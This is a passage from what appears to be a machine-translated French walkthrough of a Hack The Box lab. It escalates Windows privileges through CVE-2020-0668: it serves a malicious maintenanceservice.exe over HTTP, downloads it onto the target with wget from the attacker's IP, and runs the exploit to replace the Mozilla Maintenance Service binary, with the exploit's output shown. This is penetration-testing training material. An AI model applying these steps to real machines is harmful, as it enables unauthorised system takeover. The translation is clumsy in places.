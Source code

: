 Hébergement du binaire malveillant

```
dsgsec@htb[/htb]$ $ python3 -m http.serveur 8080

Serveur HTTP sur le port 0.0.0.0 8080 (http://0.0.0.0:8080/) ...
10.129.43.13 - - [01/Mars/2022 18:17:26] "GET /maintenanceservice.exe HTTP/1.1" 200 -
10.129.43.13 - - [01/Mar/2022 18:17:45] "GET /maintenanceservice.exe HTTP/1.1" 200 -

```

#### Téléchargement du binaire malveillant

Pour cette étape, nous devons faire deux copies du fichier .exe malveillant. Nous pouvons simplement le tirer deux fois ou le faire une fois et faire une deuxième copie.

Nous devons le faire car l'exécution de l'exploit corrompt la version malveillante de `maintenanceservice.exe` qui est déplacée vers (notre copie dans `c:\Users\htb-student\Desktop` que nous ciblons) `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` dont nous devrons tenir compte ultérieurement. Si nous essayons d'utiliser la version copiée, nous recevrons une `erreur système 216` car le fichier .exe n'est plus un fichier binaire valide.

Téléchargement du binaire malveillant

```
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe

```

#### Exécution de l'exploit

Ensuite, lançons l'exploit. Il accepte deux arguments, les fichiers source et destination.

Lancer l'exploit

```
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service \maintenanceservice.exe"

[+] Déplacement de C:\Users\htb-student\Desktop\maintenanceservice.exe vers C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

[+] Montage de \RPC Control sur C:\Users\htb-student\AppData\Local\Temp\nzrghuxz.leo
[+] Création de liens de symboles
[+] Mise à jour de la configuration HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Tracing\RASPLAP.
[+] Dormir pendant 5 secondes pour que les changements prennent effet
[+] Écriture du fichier d'annuaire sur C:\Users\htb-student\AppData\Local\Temp\179739c5-5060-4088-a3e7-57c7e83a0828.pbk
[+] Nettoyage
[+] C'est fait !

```

#### Vérification des autorisations du nouveau fichier
